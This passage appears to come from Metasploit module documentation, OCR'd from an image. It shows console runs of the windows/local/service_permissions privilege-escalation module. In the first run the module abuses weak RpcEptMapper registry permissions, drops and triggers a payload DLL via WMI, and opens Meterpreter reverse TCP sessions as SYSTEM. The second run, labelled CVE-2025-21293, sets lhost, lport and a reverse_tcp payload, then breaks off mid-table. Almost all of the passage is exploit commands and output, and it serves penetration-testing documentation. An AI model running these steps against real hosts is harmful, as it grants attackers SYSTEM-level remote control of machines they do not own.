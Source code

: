 ```

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/service_permissions) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Trying to find weak permissions in existing services..
[-] Request Error 3014: Operation failed: Access is denied. falling back to registry technique
[*] [RpcEptMapper] Checking for weak file permissions
[-] The operation completed successfully.: C:\Windows\system32\svchost.exe
[*] [RpcEptMapper] Checking for weak service permissions
[*] [RpcEptMapper] Could not open service. OpenServiceA error: Access is denied.
[*] [RpcEptMapper] Checking for weak registry permissions
[+] [RpcEptMapper] Created registry key: HKLM\System\CurrentControlSet\Services\RpcEptMapper\Performance
[*] [RpcEptMapper] Writing payload DLL to C:\Users\aliddle\AppData\Local\Temp\njabikLo.dll
[*] [RpcEptMapper] Triggering the payload via WMI...
[*] [localhost] wmic /output:CLIPBOARD /INTERACTIVE:off /node:localhost Path Win32_Perf Get
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.61:50169) at 2020-11-19 12:23:41 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.61:50170) at 2020-11-19 12:23:41 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.61:50171) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 5 opened (192.168.159.128:4444 -> 192.168.159.61:50172) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 6 opened (192.168.159.128:4444 -> 192.168.159.61:50173) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[+] Deleted C:\Users\aliddle\AppData\Local\Temp\njabikLo.dll
[*] Meterpreter session 7 opened (192.168.159.128:4444 -> 192.168.159.61:50174) at 2020-11-19 12:23:43 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

[CreateServiceA]: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea

### Scenario: Windows Server 2019. Action: CVE-2025-21293

```
msf6 exploit(windows/local/service_permissions) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(windows/local/service_permissions) > set lport 6665
lport => 6665
msf6 exploit(windows/local/service_permissions) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/service_permissions) > set target 1
target => 1
msf6 exploit(windows/local/service_permissions) > options

Module options (exploit/windows/local/service_permissions):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
```
